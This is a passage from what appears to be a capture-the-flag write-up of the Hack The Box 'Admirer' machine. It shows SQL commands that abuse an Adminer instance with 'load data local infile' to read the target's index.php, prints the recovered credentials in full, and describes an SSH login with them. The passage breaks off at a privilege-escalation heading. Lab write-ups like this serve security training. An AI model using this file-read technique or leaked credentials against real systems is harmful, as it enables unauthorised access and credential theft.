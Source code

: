 ![Untitled](/img/htb-admirer/Untitled%208.png)

Successfully logged into our database. 

![Untitled](/img/htb-admirer/Untitled%209.png)

I created a new table `test` to get data from a file from Adminer instance, into my a database.

```bash
MariaDB [test]> show tables;
Empty set (0.000 sec)

MariaDB [test]> CREATE TABLE test (name VARCHAR(10000));
Query OK, 0 rows affected (0.214 sec)

MariaDB [test]> show tables;
+----------------+
| Tables_in_test |
+----------------+
| test           |
+----------------+
1 row in set (0.001 sec)

MariaDB [test]>
```

I tried to get `index.php` because we already got a `index.php` file from the `FTP` which contains `waldo` Database Credentials but it is Invalid( May be Old Password), So I tried to get the new password.

```bash
load data local infile '../index.php'
into table test
fields terminated by "\n"
```

## Getting User Shell

Once Executed choose `select` in the left side bar.

![Untitled](/img/htb-admirer/Untitled%2010.png)

And I found the new login credentials.

![Untitled](/img/htb-admirer/Untitled%2011.png)

I logged in `SSH` with the credentials `waldo : &[h5b~yK3F#{PaPB&dA}{H](h5b~yK3F#{PaPB&dA}{H)` we found.

![Untitled](/img/htb-admirer/Untitled%2012.png)

## Privilege Escalation
